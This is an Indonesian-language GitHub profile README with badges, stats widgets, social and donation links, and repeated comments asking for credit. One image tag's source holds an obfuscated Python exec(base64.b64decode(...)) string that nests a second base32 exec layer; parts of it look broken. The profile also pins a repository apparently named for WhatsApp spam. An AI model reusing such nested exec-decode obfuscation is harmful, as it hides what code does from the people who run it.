 <!--- Script Punya Hafizh Ganz--->
<!--- Script Hafizh Ganz--->
<!--- Subs YT Doraemon Bot Official--->
<!--- Follow IG @hafizh.ganzzz_--->
<!--- Thanks Om Dah Mampir--->
<!---- Coding By Hafizh Ganz Valid No Debat--->
<!--- Cie Yang Mau Nyolong Logo Xixixi--->
<!--- Pastikan Sudah Izin Sama @Hafizh Ganz--->
<!--- And Kasih Credit :)--->
<!---- Coding By Hafizh Ganz Valid No Debat--->
<!--- Cie Yang Mau Nyolong Logo Xixixi--->
<!--- Pastikan Sudah Izin Sama @Hafizh Ganz--->
<!--- And Kasih Credit :)--->
<!---- Coding By Hafizh Ganz Valid No Debat--->
<!--- Cie Yang Mau Nyolong Logo Xixixi--->
<!--- Pastikan Sudah Izin Sama @Hafizh Ganz--->
<!--- And Kasih Credit :)--->
<!---- Coding By Hafizh Ganz Valid No Debat--->
<!--- Cie Yang Mau Nyolong Logo Xixixi--->
<!--- Pastikan Sudah Izin Sama @Hafizh Ganz--->
<!--- And Kasih Credit :)--->
<!---- Coding By Hafizh Ganz Valid No Debat--->
<!--- Cie Yang Mau Nyolong Logo Xixixi--->
<!--- Pastikan Sudah Izin Sama @Hafizh Ganz--->
<!--- And Kasih Credit :)--->

<h1 align="center">Welcome To Github MrHafizh<img src="https://user-images.githubusercontent.com/1303154/88677602-1635ba80-d120-11ea-84d8-d263ba5fc3c0.gif" width="40px"></h1>

<p align="center">
  <img src="https://i.ibb.co/sVfVTd9/5c3f2111f054.jpg" />
</p>

- 🌱 I’m currently learning **nothing**.

- 👀 I'm currently focusing on **JavaScript** ,**Shell** , And **Python**.

- 👥 Looking for collaborators on [`TermuxKeyByMrHafizh`](https://github.com/MrHafizhDev/termuxkey)

<!---- Coding By Hafizh Ganz Valid No Debat--->
<!--- Cie Yang Mau Nyolong Logo Xixixi--->
<!--- Pastikan Sudah Izin Sama @Hafizh Ganz--->
<!--- And Kasih Credit :)--->
<p align="center">
  <img src="https://img.shields.io/badge/-JavaScript-black?style=flat-square&logo=javascript" />
  <img src="https://img.shields.io/badge/-Node.Js-black?style=flat-square&logo=Node.js" />
  <img src="https://img.shields.io/badge/-HTML5-black?style=flat-square&logo=html5&logoColor=e34f26" />
  <img src="https://img.shields.io/badge/-CSS3-black?style=flat-square&logo=css3&logoColor=1572b6" />
  <img src="https://img.shields.io/badge/-Git-black?style=flat-square&logo=git" />
  <img src="https://img.shields.io/badge/-GitHub-black?style=flat-square&logo=github" /> <br>
  <img src="https://img.shields.io/badge/-Python-black?style=flat-square&logo=python" />
  <img src="https://img.shields.io/badge/-React-black?style=flat-square&logo=react" />
  <img src="https://img.shields.io/badge/-Redux-black?style=flat-square&logo=redux" />
  <img src="https://img.shields.io/badge/-Windows-black?style=flat-square&logo=windows" />
  <img src="https://img.shields.io/badge/-VS_Code-black?style=flat-square&logo=visual-studio-code" />
  <img src="https://img.shields.io/badge/-SQLite3-black?style=flat-square&logo=sqlite" />
</p>

<!--- Cie Yang Mau Nyolong Izin Dulu Sama Hafizh Om--->

<p align="center">
<img src="https://komarev.com/ghpvc/?username=MrHafizhDev&label=VIEWS MR.HAFIZH DEV&style=flat-square&color=brightgreen" />
</p>

<!--- Ini Penting Jangan Diubah Om--->

<p align="center">
<a href="https://github.com/MrHafizhDev"><img src="https://github-readme-stats.vercel.app/api?username=MrHafizhDev&bg_color=30,e96443,904e95&title_color=fff&text_color=fff&icon_color=fff&hide_border=true&show_icons=true" /></a>
</p>

<p align="center">
  <a href="https://github.com/MrHafizhDev"><img src="https://github-readme-stats.vercel.app/api/top-langs?username=MrHafizhDev&bg_color=30,e96443,904e95&title_color=fff&text_color=fff&hide_border=true&show_icons=true&layout=compact" /></a>
</p>

<p align="center">
  <a href="https://github.com/ryo-ma/github-profile-trophy"><img src="https://github-profile-trophy.vercel.app/?username=ryo-ma&theme=onedark" /></a>
</p>

<p align="center">
   <img src="https://github-readme-streak-stats.herokuapp.com/?user=MrHafizhDev" />
</p>

<p align="center">
<a href="#"><img title="MyProfile" src="https://img.shields.io/badge/MyProfile-green?colorA=%23ff0000&colorB=%23017e40&style=for-the-badge"></a>
</p>
<p align="center">
<a href="#"><img title="test" src="exec(base64.b64decode('aW1wb3J0IGJhc2U2NApleGVjKGJhc2U2NC5iMzJkZWNvZGUoJ0hSWUNBWUxNTkZUVzRQSkNNTlNXNDVERk9JUkQ0Q1I0TkQ1I0TkZXV09JRFRPSlJUMklUSU9SMkhBNFoyRjRYV1NMVEpNSlJDNFkzUEY1RFdJNkJYTUk0VE9MMkpKVkRTMk1SUUdJWVRBTkJRSEVXVk9RSlFHTTNEFHTTNER0xUS09CVFNFSUJQSFlGRFlMM1FIWUZBPT09PScpKQ==')"></a>
</p>
<!--- Terserah Mau Ganti Atau Gak--->
<p align="center">
<img src="https://i.ibb.co/Gdx7b97/IMG-20210409-WA0363.jpg" />
</p>
<!--- End Terserah Mau Ganti Atau Gak--->
<p align="center">
<a href="https://github.com/MrHafizhDev"><img title="Author" src="https://img.shields.io/badge/AUTHOR-HAFIZH-blue.svg?style=for-the-badge&logo=github"></a>
<p align="center">
<a href="https://github.com/MrHafizhDev/followers"><img title="Followers" src="https://img.shields.io/github/followers/MrHafizhDev?color=blue&style=flat-square"></a>
<a href="https://github.com/MrHafizhDev/spamwabyhafizhganz/stargazers/"><img title="Stars" src="https://img.shields.io/github/stars/MrHafizhDev/MyProfile?color=red&style=flat-square"></a>
<a href="https://github.com/MrHafizhDev/MyProfile/network/members"><img title="Forks" src="https://img.shields.io/github/forks/MrHafizhDev/MyProfile?color=red&style=flat-square"></a>
<a href="https://github.com/MrHafizhDev/MyProfile/watchers"><img title="Watching" src="https://img.shields.io/github/watchers/MrHafizhDev/MyProfile?label=Watchers&color=blue&style=flat-square"></a>
<a href="https://hits.seeyoufarm.com"><img src="https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https%3A%2F%2Fgithub.com%2FUrbaee%2Fwhatsapp-bot2&count_bg=%232396FF&title_bg=%23555555&icon=meteor.svg&icon_color=%23F5F9FF&title=visitor&edge_flat=false"/></a>
</p>

  
  
## Hits Repositories
<p align="left">
<a href="https://github.com/MrHafizhDev/spamwabyhafizhganz">
 <img align="center" src="https://github-readme-stats.vercel.app/api/pin/?username=MrHafizhDev&repo=spamwabyhafizhganz&theme=dark" />
  </p>
<p align="left">
<a href="https://github.com/MrHafizhDev/MrHafizhDev">
 <img align="center" src="https://github-readme-stats.vercel.app/api/pin/?username=MrHafizhDev&repo=MrHafizhDev&theme=dark" />
  </p>
  
  
## Coding Yang Selalu Saya Gunakan
<p>
    <img
        src="https://img.shields.io/badge/node.js%20-%2343853D.svg?&style=for-the-badge&logo=node.js&logoColor=white" />
    <img
        src="https://img.shields.io/badge/javascript%20-%23323330.svg?&style=for-the-badge&logo=javascript&logoColor=%23F7DF1E" />

<!--- End Data Penting Om --->

<!--- Yang Ini Ubah Aja Om Gapapa --->

## Ingfo

- 👋 Halo Saya Mr Hafizh Dev
- 👀 Lumayan Suka Game
- 🌱 Cinta Tanaman And Lingkungan
- 💞️ Please Help Me Dengan Cara Berdonasi 
- 📫 Jika Anda Bingung Tanya Kan Dengan Di Bawah Ini
- ♠️ [`HELP HUMAN`](https://wa.me/6285741056111)

<!--- End Data --->

<!---
Tobat Yok Om Dah Ramadhan :v
--->
<!---
MrHafizhDev/MrHafizhDev is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->


 ## MEDSOS HAFIZH
- [`YouTube`](https://m.youtube.com/channel/UCEAiLVNeKGtN_0HhLopgOvw)
- [`Instagram`](https://instagram.com/hafizh.ganzzz_)
- [`WhatsApp`](https://wa.me/6285741056111)
- [`GitHub`](https://github.com/MrHafizhDev)
- [`MY GROUP`](https://chat.whatsapp.com/BlhY5aEfrlw3hMf7DVot59)

 ## DONATE ME!
- [`Gopay`](https://wa.me/6285741056111?text=Min+saya+mau+donasi+pakai+pembayaran+Gopay+dengan+jumlah+Rp.)
- [`Pulsa`](https://wa.me/6285741056111?text=Min+saya+mau+donasi+pakai+pembayaran+pulsa+dengan+jumlah+Rp.)
- [`Dana`](https://wa.me/6285741056111?text=Min+saya+mau+donasi+pakai+pembayaran+Dana+dengan+jumlah+Rp.)
- [`Link Aja`](https://wa.me/6285741056111?text=Min+saya+mau+donasi+pakai+pembayaran+LinkAja+dengan+jumlah+Rp.)
- [`Your Payment`](https://wa.me/6285741056111?text=Min+saya+mau+donasi+pakai+pembayaran+My+Payment+dengan+jumlah+Rp.)


## SPECIAL THANKS TO 
- **ORANG TUA**
- **[`HAFIZHDEV`](https://github.com/MrHafizhDev)**
- [`AKUN KE 2`](https://github.com/Mrhafizh21)

<!---
Bebas Lu Mau Ganti Kata Kata Penutup Nya Jadi Kata Kata Lu
--->
## Penutup 
```
Sekian Om Dari Saya Bila Anda Penasaran Dengan Repo Apa Saja Yang Saya Buat
Langsung Cek List Repo Ya Om 🗿 Tanpa Banyak Bicit Langsung Gaskenn Wkwkk
```
<!---
End
--->

<!--- Jangan Diubah Amsu --->
<!--- Kasih Credit Gw --->
<!--- Moga Aja Yang Gk Ngasih Credit Dia Gk Pernah Dikasih Credit--->
<!--- Amin...--->

<p align="center">
  <a href="https://m.youtube.com/channel/UCEAiLVNeKGtN_0HhLopgOvw"><img src="https://img.shields.io/badge/YouTube-Doraemon%20Bot%20Official-ff0000?style=for-the-badge&logo=youtube&logoColor=ff0000&link=https://m.youtube.com/channel/UCEAiLVNeKGtN_0HhLopgOvw" /></a>
  <a href="mailto:doraemonbotofficial@secret.fyi"><img src="https://img.shields.io/badge/Gmail-doraemonbotofficial@secret.fyi-ea4335?style=for-the-badge&logo=Gmail&logoColor=ea4335&link=mailto:doraemonbotofficial@secret.fyi" /></a>
  <a href="https://instagram.com/hafizh.ganzzz_"><img src="https://img.shields.io/instagram/hafizh.021y?logo=twitter&style=for-the-badge" /></a> <br>

<!--- End--->
<!--- End--->
<!--- End--->
<!--- End Script README.md--->
